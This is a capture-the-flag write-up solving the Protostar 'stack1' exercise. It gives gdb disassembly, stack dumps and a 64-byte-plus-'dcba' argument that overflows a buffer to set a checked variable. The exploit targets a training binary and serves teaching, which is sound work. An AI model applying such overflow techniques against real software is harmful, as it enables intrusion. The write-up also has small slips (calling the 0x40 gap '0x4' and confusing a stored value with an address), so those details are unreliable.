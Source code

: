 # stack1
## Tools
- gdb (gef)

## Recon
By running the binary, we're given an error message:
```shell
stack1: please specify an argument
```

Running the binary again with the argument abc, we get:
```shell
Try again, you got 0x00000000
```

If I had to guess, we're going to have to overflow the stack so that the spillover into a variable equals a certain number. But what number do we need, and how far do we have to spill through the stack? To answer these questions we're gonna have to crack this baby open.

## Disassembling

Loading up gdb and quickly inspecting the functions, we see the only one of interest is the main function. Setting a breakpoint and popping in, let's take a look at the disassembly:

```shell
Dump of assembler code for function main:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	and    esp,0xfffffff0
   0x0804846a <+6>:	sub    esp,0x60
=> 0x0804846d <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048471 <+13>:	jne    0x8048487 <main+35>
   0x08048473 <+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
   0x0804847b <+23>:	mov    DWORD PTR [esp],0x1
   0x08048482 <+30>:	call   0x8048388 <errx@plt>
   0x08048487 <+35>:	mov    DWORD PTR [esp+0x5c],0x0
   0x0804848f <+43>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048492 <+46>:	add    eax,0x4
   0x08048495 <+49>:	mov    eax,DWORD PTR [eax]
   0x08048497 <+51>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849b <+55>:	lea    eax,[esp+0x1c]
   0x0804849f <+59>:	mov    DWORD PTR [esp],eax
   0x080484a2 <+62>:	call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:	mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:	cmp    eax,0x61626364
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
   0x080484b2 <+78>:	mov    DWORD PTR [esp],0x80485bc
   0x080484b9 <+85>:	call   0x8048398 <puts@plt>
   0x080484be <+90>:	jmp    0x80484d5 <main+113>
   0x080484c0 <+92>:	mov    edx,DWORD PTR [esp+0x5c]
   0x080484c4 <+96>:	mov    eax,0x80485f3
   0x080484c9 <+101>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cd <+105>:	mov    DWORD PTR [esp],eax
   0x080484d0 <+108>:	call   0x8048378 <printf@plt>
   0x080484d5 <+113>:	leave
   0x080484d6 <+114>:	ret
End of assembler dump.
```

Here we can see the value of a variable [esp+0x5c] being stored in the register eax. The register is then compared with 0x61626364 ("abcd"), and if they're not equal, the assembly jumps to a section of code that prepares and executes our "Try again" message.
```shell
   0x080484a7 <+67>:	mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:	cmp    eax,0x61626364
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
```

Now we know our stack overflow needs to reach [esp+0x5c], and we know we'll need to use our argument variable to overflow the stack, but where did our argument get stored?
If we put a breakpoint right before the cmp operation at 0x080484ab and print the stack:
```shell
gef➤  x/24x $esp
0xffffd180:	0xffffd19c	0xffffd45a	0xf7ffd608	0x00000000
0xffffd190:	0xf7ffcff4	0x0000002c	0x00000000	0x00636261
0xffffd1a0:	0xf7fc7550	0x00000000	0xf7da1a4f	0xf7fa2048
0xffffd1b0:	0xf7fc14b0	0xf7fd97cb	0xf7da1a4f	0xf7fc14b0
0xffffd1c0:	0xffffd200	0xf7fc1688	0xf7fc1b40	0x00000001
0xffffd1d0:	0x00000001	0x00000000	0x00000000	0x00000000
```
we see our variable ("abc" = 0x636261) in the second row of the last column, or $esp+0x1c (start from 0 and count every byte, or every 2 hex characters). Another way to see this is using the telescope command with gef:
```shell
gef➤  telescope $esp

0xffffd180│+0x0000: 0xffffd19c  →  0x00636261 ("abc"?)	 ← $esp
0xffffd184│+0x0004: 0xffffd45a  →  0x00636261 ("abc"?)
0xffffd188│+0x0008: 0xf7ffd608  →  0xf7fc9000  →  0x464c457f
0xffffd18c│+0x000c: 0x00000000
0xffffd190│+0x0010: 0xf7ffcff4  →  0x00033f14
0xffffd194│+0x0014: 0x0000002c (","?)
0xffffd198│+0x0018: 0x00000000
0xffffd19c│+0x001c: 0x00636261 ("abc"?)
0xffffd1a0│+0x0020: 0xf7fc7550  →  <__kernel_vsyscall+0000> push ecx
0xffffd1a4│+0x0024: 0x00000000
```
It's a bit easier to see that ("abc"?) is stored at memory address 0x00636261 which, in other words, is at the stack pointer offset +0x001c

Alright! The hard work is done. Now we just need to overflow the stack starting from [esp+0x1c] to [esp+0x5c]. The difference between the two memory locations is 0x4, or 64. Therefore, we need a string with 64+4 characters to spill into our [esp+0x5c] variable, but we also need to make sure our [esp+0x5c] variable ends up with 0x61626364 or "abcd".

HOWEVER, we need to keep making this even more complicated! By using elf-info, we can see:
```shell
gef➤  elf-info
[...]
Endianness            : 0x1 - LITTLE_ENDIAN
[...]
```
we're working with little endian, meaning we'll have to do some reversing magic. 

To sum it all up:
- there are 64 bytes between our entry point in the stack and the variable we want to overflow
- we want the overflowed variable to have a value of 0x61626364 ("abcd")
- we're working with little endian, so we're going to have to do (64 bytes) + ("dcba") to get the result we want (reverse "abcd")

## Cracking the stack

We can use the python script thrown together in [stack0](https://github.com/aldamd/CTF/tree/main/writeups/protostar/stack0) to generate 64 characters:
```python3
str_ = ""
for i in range(16):
    str_ += (chr(ord('A') + i)) * 4
print(str_)
```

and then we add "dcba" for a finished product of AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPdcba

```shell
./stack1 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPdcba
you have correctly got the variable to the right value
```

easy money! Let's just take a peek at the stack because we came all this way so why not:
```shell
gef➤  x/24x $esp
0xffffd140:	0xffffd15c	0xffffd419	0xf7ffd608	0x00000000
0xffffd150:	0xf7ffcff4	0x0000002c	0x00000000	0x41414141
0xffffd160:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd170:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd180:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xffffd190:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x61626364

gef➤  x/x $esp+0x5c
0xffffd19c:	0x61626364
```

and there we have it! [esp+0x5c] was successfully overflowed to 0x61626364
